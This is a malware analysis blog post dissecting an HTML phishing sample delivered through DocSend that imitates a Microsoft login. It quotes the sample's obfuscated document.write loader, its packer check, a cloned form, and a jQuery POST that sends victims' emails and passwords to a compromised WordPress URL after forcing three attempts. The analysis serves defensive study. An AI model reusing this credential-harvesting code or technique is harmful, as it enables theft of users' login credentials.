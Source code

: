 +++
author = "Brian Stadnicki"
title = "Docsend Payment Audistore phisher"
date = "2021-11-30"
categories = [ "malware analysis" ]
tags = [ "reverse engineering", "malware", "html", "phishing", "js" ]
+++

![Overview](/posts/malware-docsend-payment-phisher-audi/overview.png)

This phishing sample was delivered through `docsend` and relies on the user opening the downloaded html file and logging into microsoft. Sample collected from [JOESandbox](https://www.joesandbox.com/analysis/898395). 

MD5: `7d6375abf1cff57c9d7da133cfaf0782`

# Loader

```
<!--
TG9yZW0gaXBzdW0gZG9sb3Igc2l0IGFtZXQsIGNvbn
...  --><script type='text/javascript'>document.write('\u003C\u0021\u002D\u002D\u0058\u0056\u005A\u0054\u0074\u006D...');</script><!-- TgZG9sb3Igc2l0IGFtZXQsIGNvbnNlY3R
...
G1vZG8gdHlwaSwgcXVpIG51bmMgbm9iaXMgdmlkZW50dXIgcGFydW0gY2xhcmksIGZpYW50IHNvbGxlbW5lcyBpbiBmdXR1cnVtLg

### ### -->
```

There's a large comment full of likely random data to help evade detection, and a call to `document.write`, which writes text to the document stream.

# Packed

First of all, it appears the embedded html page was packed using [Proteger HTML](https://www.ProtegerHtml.com/en), and their license expires on `Sun Dec 05 2021 01:29:00 GMT`, that's in just 5 days of this post being published. 

```js
var timeexpiracion=1638667740;
var timehoy = Math.round(+new Date()/1000);
if (timehoy>timeexpiracion) { alert ("The HTML Code of this Website was Encrypted Free at: www.ProtegerHtml.com/enNOTE: To encrypt your Website without..."
```

The blurred out word document is, as usual, just an image hosted on `gyazo`.

```html
<body style="background-image: url('https://i.gyazo.com/d1b2270a564efe0c37d2e01ed1c647a8.png'); ...>
```

## Form

The microsoft form is a clone in terms of html and css of the real one, the difference is the javascript driving it. The create account and alternative sign-in links are just `#` of course.

```js
var base64regex = /^([0-9a-zA-Z+/]{4})*(([0-9a-zA-Z+/]{2}==)|([0-9a-zA-Z+/]{3}=))?$/;
if (!base64regex.test(email)) {  
```

There's even input validation on the email.

When the user clicks next, the malware fetches the email's logo using clearbit, eg `https://logo.clearbit.com/google.com`, defaulting to the microsoft logo.

![Enter password form](/posts/malware-docsend-payment-phisher-audi/enter-password.png)

When the user presses sign in, the text changes to `verifying..`, and a POST request is sent to the collection server.

```js
$.ajax({
    dataType: 'JSON',
    url: "https://www.audistore.com.ar/wp-admin/user/user/next.php",
    type: 'POST',
    data: {
        email: email,
        password: password,
        detail: detail,
    }
```

The `detail` in the request body appears to be nothing.

```js
$("#password").val("");
if (count >= 3) {
    count = 0;
    $("#div2").animate({ left: 0, opacity: "hide" }, 0);
    $("#div3").animate({ left: 0, opacity: "show" }, 500);
    setTimeout(() => {
        window.location.replace("https://office365.com/");
    }, 500);
    return false;
}
```

The form errors 2 times before redirecting the user to `https://office365.com/`, in order to collect any other passwords the user has.

![Sign in attempt timeout](/posts/malware-docsend-payment-phisher-audi/sign-in-attempt-timeout.png)

![Password incorrect](/posts/malware-docsend-payment-phisher-audi/password-incorrect.png)

After collecting 3 of the user's passwords, it gives a very dodgy looking success screen.

![Success redirecting](/posts/malware-docsend-payment-phisher-audi/success-redirecting.png)

Then it redirects to `https://office365.com/`.

## Audi Store

The credentials are collected at `https://www.audistore.com.ar/wp-admin/user/user/next.php`. Only the [CRDF](https://crdf.fr) has placed this domain on the malicous URL list so far.

![Audi store](/posts/malware-docsend-payment-phisher-audi/audistore.png)

Looks like somebody forgot to update their wordpress installation...

I've contacted them to try to get this removed from their website.
